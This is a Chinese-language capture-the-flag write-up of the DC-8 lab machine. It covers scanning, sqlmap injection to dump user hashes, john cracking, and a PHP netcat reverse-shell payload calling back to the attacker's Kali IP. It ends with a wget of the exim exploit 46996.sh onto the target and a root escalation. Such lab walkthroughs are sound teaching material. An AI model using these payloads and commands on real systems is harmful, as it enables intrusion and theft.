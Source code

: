 # DC-8靶机
---
title:  DC-8靶机
index: true
isOriginal : true
category:
  - 靶机
tag:
  - 靶机
---
1. 主机扫描使用arp-scan扫描工具  --localnet 扫描本地网络

    ![image](assets/image-20240823161457-pgp6fgl.png)

    ​`.1`​（通常是网关或路由器的地址）和`.255`​（广播地址）。而`.254`​ 经常被用作子网内的一个特殊设备（如DHCP服务器）的地址，但这不是一个固定的规则.
2. 使用Nmap端口扫描   -sV：探测开放端口以确定服务/版本信息；

    ​ **​`-p-`​** ​：这个选项告诉 Nmap 扫描目标上所有可能的端口（从 1 到 65535）。默认情况下，Nmap 只会扫描一些常见的端口，但使用 `-p-`​ 选项可以确保扫描所有端口

    ![image](assets/image-20240823161554-59k6g0p.png)
3. 使用dirsearch扫描目录 python3 dirsearch.py -u [target_url]  # 攻击目标url地址

    dirsearch -u 192.18.142 -e * -x 403 --random-agent

    ​`-e *`​ 参数表示使用所有内置的扩展名列表进行扫描

    ​`--random-agent`​ 在请求时使用随机的用户代理字符串，这有助于<span data-type="text" style="color: var(--b3-font-color11);">绕过</span>一些基于用户代理的访问控制或<span data-type="text" style="color: var(--b3-font-color11);">日志记录</span>。

    ​`-x 403`​ 参数在这里可能是想排除状态码为 403 Forbidden 的响应。

    ![image](assets/image-20240823161920-y7ou5i0.png)
4. 访问网站

    ![image](assets/image-20240823162555-zfdjykf.png)
5. 发现注入点

    ![image](assets/image-20240823162532-moh29a0.png)
6. sqlmap扫描

    ![image](assets/image-20240823162853-06gw6ag.png)
7. 发现存在注入

    布尔盲注、报错注入、时间盲注、联合查询

    ![image](assets/image-20240823162947-k74bvu6.png)
8. 扫描数据库

    sqlmap -u "http://192.168.18.142/?nid=1"<span data-type="text" style="color: var(--b3-font-color8);"> -dbs</span>

    ![image](assets/image-20240823163129-0rrigwx.png)

    ![image](assets/image-20240823163206-f78hkpj.png)
9. 根据数据库名扫描表

    sqlmap -u "http://192.168.18.142/?nid=1" -D d7db <span data-type="text" style="color: var(--b3-font-color8);">-tables</span>

    ![image](assets/image-20240823163307-9ifd68j.png)

    ![image](assets/image-20240823163507-clhbqmd.png)
10. 扫描users表

     ![image](assets/image-20240823163725-wpe8utp.png)

     得到后台账密

     ![image](assets/image-20240823163902-i0kh8wr.png)
11. 将密码复制出来保存到adpass.txt和johnpass.txt文件中，然后使用john工具进行爆破

     ![image](assets/image-20240823165442-hr30qfa.png)
12. 得到账户john的密码为turtle，账户admin的密码无法爆破

     使用dirb命令`dirb http://192.168.18.142`​  <span data-type="text" style="color: var(--b3-font-color9);">扫描网站目录和文件</span>

     dirb http://192.168.18.142

     ![image](assets/image-20240823165602-cbhqw6y.png)

     #### robots.txt

     是一个纯文本文件，在这个文件中网站管理者可以声明该网站中不想被robots访问的部分，robots.txt 文件规定了搜索引擎抓取工具可以访问您网站上的哪些网址。或者指定搜索引擎只收录指定的内容。

     当一个搜索机器人（有的叫搜索蜘蛛）访问一个站点时，它会首先检查该站点根目录下是否存在robots.txt
13. 登录上方页面找到登录地址

     ![image](assets/image-20240823165842-fy4d899.png)
14. 根据地址找到登录页面并登录

     ![image](assets/image-20240823170301-a66hd2d.png)
15. 然后将反弹shell的命令  <?php system("nc -e /bin/bash 192.168.172.131 1234"); ?>   IP地址为kali的IP地址  nc反向shell

     System()函数的主要功能是在系统权限允许的情况是执行系统命令
     ![image](assets/image-20240823170751-7fzsrm6.png)
16. 监听靶机

     ![image](assets/image-20240823171255-v45evn7.png)
17. 然后回到网站contact us的view页面，随便输入一些信息然后点击【submit】就可以反弹回shell

     ![image](assets/image-20240823171414-sf0oshv.png)
18. ![image](assets/image-20240823172027-9blx3e1.png)
19. 此时的shell不是交互式shell，所以使用命令`python -c "import pty; pty.spawn('/bin/bash')"`​获取一个交互式的shell

     ![image](assets/image-20240823172120-87zrua0.png)
20. 查看可以用于suid提权的命令    `find / -user root -perm -4000 -print 2>/dev/null`​ ★★

     * ​`find /`​：`find`​命令用于在目录树中搜索文件，并可以对搜索结果执行操作。这里的`/`​表示从<span data-type="text" style="color: var(--b3-font-color9);">根目录开始搜索整个系统</span>。
     * ​`-user root`​：这个选项告诉`find`​命令<span data-type="text" style="color: var(--b3-font-color9);">只查找属于用户</span>`root`​​​<span data-type="text" style="color: var(--b3-font-color9);">的文件</span>。`root`​是Linux系统中的超级用户，拥有对系统的完全访问权限。
     * ​`-perm -4000`​：这个选项用于查找具有特定权限的文件。`-perm`​后面跟的数字或符号<span data-type="text" style="color: var(--b3-font-color8);">表示文件的权限</span>。在这里，`-4000`​是一个特殊的权限位，它代表设置用户ID（<span data-type="text" style="color: var(--b3-font-color9);">SUID</span>）权限。当一个可执行文件具有SUID权限时，<span data-type="text" style="color: var(--b3-font-color10);">用户执行该文件时将以文件所有者的身份运行</span>（在这个例子中是`root`​）。这允许普通用户执行通常需要更高权限的操作。然
     * ​`-print`​：<u>​`find`​</u>​<u>命令默认会将找到的文件名输出到标准输出（通常是屏幕）。</u>​<u>​`-print`​</u>​<u>选项实际上在这里是隐式的，但明确写出来可以增强命令的可读性</u>。它告诉`find`​命令打印出找到的每个文件的路径。
     * ​`2>/dev/null`​：★★★**这部分是重定向的一部分**，用于处理错误消息。在shell中，`2`​​​​ <span data-type="text" style="color: var(--b3-font-color9);">代表标准错误</span>（stderr），而`>`​是重定向操作符。`/dev/null`​​​​ <span data-type="text" style="color: var(--b3-card-warning-color); background-color: var(--b3-card-warning-background);">是一个特殊的设备文件，通常被称为“空设备”或“黑洞”</span>。写入它的任何数据都会被丢弃，读取它时通常立即返回文件结束。因此，`2>/dev/null`​的意思是将<span data-type="text" style="background-color: var(--b3-font-background9);">所有标准错误输出重定向到</span>`/dev/null`​​​，这样就不会在屏幕上显示任何错误信息了。这对于<span data-type="text" style="color: var(--b3-font-color11);">忽略那些由于权限不足而无法访问的目录的错误消息</span>特别有用。

     ![image](assets/image-20240823172252-o2lclm6.png)
21. 发现一个比较奇怪的命令exim4，先查看一下命令版本   `/usr/sbin/exim4 --version`​

     ![image](assets/image-20240823172420-yd4wu1x.png)
22. ​`searchsploit exim 4`​     搜索可以利用的提权方法  选择使用46996.sh

     ![image](assets/image-20240823172747-pqj5ktm.png)
23. 使用靶机的wget命令将该脚本下载到靶机中，先将kali机的apache服务开启，命令`service apache2 start`​

     ![image](assets/image-20240823172859-ur2bqaa.png)
24. 将攻击脚本文件复制到Apache服务的根目录/var/www/html下，命令`cp /usr/share/exploitdb/exploits/linux/local/46996.sh /var/www/html/exp.sh`​

     ![image](assets/image-20240823172945-sucs3r3.png)
25. 在kali中使用set ff\=unix，告诉编译器，使用unix换行符，否则会无法使用脚本

     ![image](assets/image-20240823173330-wc4zp7y.png)

     ![image](assets/image-20240823173307-w46564x.png)
26. 在靶机反弹回来的shell处使用命令`wget http://192.168.172.131/exp.sh`​将脚本下载到靶机中

     由于前面目录没有权限所以换目录下载

     ![image](assets/image-20240823173820-3kumopa.png)

     ![image](assets/image-20240823173738-qnfdsv5.png)
27. 成功将exp.sh下载到靶机中，但是发现没有执行权限，使用命令`chmod +x exp.sh`​赋予脚本执行权限，并使用命令`./exp.sh -m netcat`​来执行脚本

     ![image](assets/image-20240823174320-u097but.png)

     ![image](assets/image-20240823175056-6wkl2da.png)
28. 提权成功，跳转到/root目录下即可查看flag

     ![image](assets/image-20240823175333-e6jwa9f.png)

‍
